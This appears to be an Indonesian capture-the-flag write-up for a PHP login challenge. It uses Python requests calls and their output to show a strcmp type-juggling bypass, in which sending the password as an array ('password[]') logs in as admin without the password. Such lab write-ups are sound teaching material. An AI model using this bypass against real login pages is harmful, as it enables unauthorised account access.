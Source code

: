 ### Strcmp 
```409 Solved
Author: abdilahrf  
Point: 5   Difficulties:

Strcmp is used to validate the password that user inputted and check is that a valid password if the password is not valid you can't get the flag! Find a way to get the flag http://chall.ctfs.me:8002/strcmp/
```

Tampilan dari alamat berikut merupakan halaman login yang memasukan username dan password sebagai input, dalam pengerjaan digunakan python interpreter dan library request.
Memasukan username dan password secara acak 

```python
In [1]: import requests
In [2]: r = requests.Session()
In [3]: a = r.post("http://chall.ctfs.me:8002/strcmp/", data={"username":"A", "pas
   ...: sword":"A", "submit":"Login"})
In [4]: a.text
Out[4]: u'<div style="width:100%;color:#fff;"><b style="color:#000;">Login page</b> guest:guest</div>\n<form method="post" action="" >\n<input type="text" name="username" />\n<input type="password" name="password" />\n<input type="submit" name="submit" value="Login" />\n</form>\n'

```

melakukan request kembali dengan username guest dan password guest

```python
In [5]: a = r.post("http://chall.ctfs.me:8002/strcmp/", data={"username":"guest", "pas
   ...: sword":"guest", "submit":"Login"})
In [6]: a.text
Out[6]:  u'Welcome Guest, to get flag you must login as admin<div style="width:100%;color:#fff;"><b style="color:#000;">Login page</b> guest:guest</div>\n<form method="post" action="" >\n<input type="text" name="username" />\n<input type="password" name="password" />\n<input type="submit" name="submit" value="Login" />\n</form>\n'

```

Seperti pada nama soal kemungkinan authentikasi yang digunakan pada password adalah strcmp, vulnerability pada strcmp adalah apabila string dicompare dengan tipe lain seperti array misalnya, maka untuk mengerjakan soal ini digunakan request seperti berikut

```python
In [7]: a = r.post("http://chall.ctfs.me:8002/strcmp/", data={"username":"admin", "pas
   ...: sword[]":"A", "submit":"Login"})
In [8]: a.text
Out[8]:  u'flag : CTFS{strcmp_is_a_nightmare}<div style="width:100%;color:#fff;"><b style="color:#000;">Login page</b> guest:guest</div>\n<form method="post" action="" >\n<input type="text" name="username" />\n<input type="password" name="password" />\n<input type="submit" name="submit" value="Login" />\n</form>\n'

```
Flag :

```bash
CTFS{strcmp_is_a_nightmare}
```
